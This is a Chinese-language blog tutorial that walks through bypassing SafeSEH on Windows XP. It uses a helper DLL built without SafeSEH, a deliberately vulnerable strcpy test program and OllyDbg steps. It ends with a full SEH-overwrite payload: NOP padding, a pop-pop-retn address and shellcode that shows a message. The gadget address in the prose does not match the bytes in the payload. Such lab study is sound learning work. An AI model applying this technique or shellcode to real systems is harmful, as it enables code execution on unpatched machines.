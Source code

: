 ```yaml
---
layout:		post
title:		利用未启用SafeS.E.H模块绕过SafeS.E.H
author:		wooy0ung
tags:		windows
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp3  
>编译器: Visual Studio 2008 & VC 6.0
>调试器: OllyDbg 1.10  
<!-- more -->


### 0x00 前期准备

VC 6.0新建一个dll工程, 贴入以下代码

```
#include "stdafx.h"

BOOL APIENTRY DllMain( HANDLE hModule, 
                       DWORD  ul_reason_for_call, 
                       LPVOID lpReserved
					 )
{
    return TRUE;
}

void jump()
{
	__asm
	{
		pop eax
		pop eax
		retn
	}
}
```

如下设置好项目属性

![](/assets/img/exploit/2017-10-03-safeseh-break-byunsafe/0x00.png)

关闭优化

![](/assets/img/exploit/2017-10-03-safeseh-break-byunsafe/0x01.png)

直接拖到OD载入, 选择Plugins->SafeSEH->Scan /SafeSEH Modules(需要安装OllySSEH插件), 确认SafeS.E.H没有开启

![](/assets/img/exploit/2017-10-03-safeseh-break-byunsafe/0x02.png)

VS 2008新建一个工程, 帖入以下代码, 选择release版本, 禁止优化

```
#include "stdafx.h"
#include <string.h>
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90";

DWORD MyException()
{
	printf("There is an exception");
	getchar();
	return 1;
}

void test(char * input)
{
	char str[200];
	strcpy(str,input);
	int zero=0;

	__try
	{
		zero=1/zero;
	}
	__except(MyException())
	{
	}
}

int main()
{
	HINSTANCE hInst=LoadLibrary(_T("SEH_NoSafeSEH_JUMP.dll"));
	char str[200];

	__asm int 3
	test(shellcode);
	
	return 0;
}
```


### 0x01 分析

运行*.exe, OllyDbg自动附加调试

![](/assets/img/exploit/2017-10-03-safeseh-break-byunsafe/0x03.png)

单步跟进test函数, 直接F4来到这里, 此时完成了strcpy

![](/assets/img/exploit/2017-10-03-safeseh-break-byunsafe/0x04.png)

0x0012fdb8是shellcode的起始栈地址

![](/assets/img/exploit/2017-10-03-safeseh-break-byunsafe/0x05.png)

定位到栈上最近的一个SE Handler(0x0012fe94)

![](/assets/img/exploit/2017-10-03-safeseh-break-byunsafe/0x06.png)


### 0x02 exploit

在dll定位一个"pop pop retn"跳板指令地址(0x111211b6), 注意这个地址不能有两个或以上的'0'连续(如"\x06\x10"也是不行的)

![](/assets/img/exploit/2017-10-03-safeseh-break-byunsafe/0x07.png)

按如下组织shellcode

```
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"		# 220 byte
"\x12\x10\x12\x11"		# pop eax pop eax retn
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7"		# shellcode
```

pwn~

![](/assets/img/exploit/2017-10-03-safeseh-break-byunsafe/0x08.png)